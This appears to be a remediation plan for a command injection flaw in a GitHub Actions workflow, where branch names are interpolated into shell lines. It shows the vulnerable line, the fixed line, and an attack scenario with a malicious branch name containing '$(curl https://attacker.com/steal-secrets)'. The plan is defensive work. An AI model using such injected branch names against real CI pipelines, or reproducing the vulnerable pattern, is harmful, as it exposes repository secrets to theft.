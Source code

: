 **Before (VULNERABLE):**
```yaml
TARGET_BRANCH="${{ github.head_ref || github.ref_name }}"
```
- Shell re-evaluates expression, allows command substitution
- Attack: Branch `feature/$(curl attacker.com)` executes `curl`

**After (SECURE):**
```yaml
TARGET_BRANCH="${GITHUB_HEAD_REF:-$GITHUB_REF_NAME}"
```
- Reads pre-populated environment variables
- No shell re-evaluation, no command substitution
- Safe against malicious branch names

#### `docs/test-evidence/review-3310711738/artifact-upload-fix.txt`
- **Issue:** Minor - Documentation inconsistency (lines 1-13)
- **Change:** Update code snippet to match actual workflow (keep "Fail if errors occurred" step)
- **Impact:** ✅ Aligns documentation with reality

**Total Files:** 2
**Total Changes:** +1 line (security fix), documentation update

---

## 5. Estrategia de Implementación

### Order of Application

**Priority: Security First**
1. **Security Fix** (Critical) - Apply command injection fix in gdd-repair.yml
2. **Documentation Fix** (Minor) - Update evidence file for consistency
3. **Validation** - Verify shell syntax and security
4. **Evidence** - Document security fix and validation

**Grouping Strategy:**
- ✅ Single atomic commit (related security + documentation fixes)
- ✅ Clear commit message emphasizing security severity
- ✅ Evidence of security validation

### Testing Plan

#### Pre-Fix State (VULNERABLE)

**Attack Scenario:**
```bash
# Attacker creates malicious branch
git checkout -b "feature/\$(curl https://attacker.com/steal-secrets)"

# Workflow runs with interpolated expression
TARGET_BRANCH="${{ github.head_ref || github.ref_name }}"
# Expands to: TARGET_BRANCH="feature/$(curl https://attacker.com/steal-secrets)"
# Shell executes: curl https://attacker.com/steal-secrets
```

